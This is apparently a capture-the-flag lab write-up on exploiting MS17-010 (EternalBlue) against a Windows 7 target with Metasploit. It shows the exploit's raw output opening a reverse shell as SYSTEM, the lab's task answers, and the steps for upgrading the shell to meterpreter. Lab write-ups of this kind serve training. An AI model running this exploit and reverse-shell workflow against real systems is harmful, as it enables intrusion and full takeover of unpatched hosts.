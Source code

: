 ```bash showLineNumbers
[*] 10.10.75.105:445 - Sending all but last fragment of exploit packet
[*] 10.10.75.105:445 - Starting non-paged pool grooming
[+] 10.10.75.105:445 - Sending SMBv2 buffers
[+] 10.10.75.105:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.75.105:445 - Sending final SMBv2 buffers.
[*] 10.10.75.105:445 - Sending last fragment of exploit packet!
[*] 10.10.75.105:445 - Receiving response from exploit packet
[+] 10.10.75.105:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.75.105:445 - Sending egg to corrupted connection.
[*] 10.10.75.105:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.75.105
[+] 10.10.75.105:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.75.105:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.75.105:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Command shell session 1 opened (10.10.158.144:4444 -> 10.10.75.105:49197) at 2023-08-01 11:24:37 +0100


Shell Banner:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
-----
          

C:\Windows\system32>whoami
whoami
nt authority\system
```
## Flag
### Task1
- How many ports are open with a port number under 1000? `3`
- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) `Ms17-010`
### Task2
- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)  `exploit/windows/smb/ms17_010_eternalblue`
- Show options and set the one required value. What is the name of this value? (All caps for submission)  `RHOSTS`

### Task3
- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)  `post/multi/manage/shell_to_meterpreter`
- Select this (use MODULE_PATH). Show options, what option are we required to change? `SESSION`

### Task4
```bash
# 保存当前会话
msf6 post(windows/gather/smart_hashdump) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on
```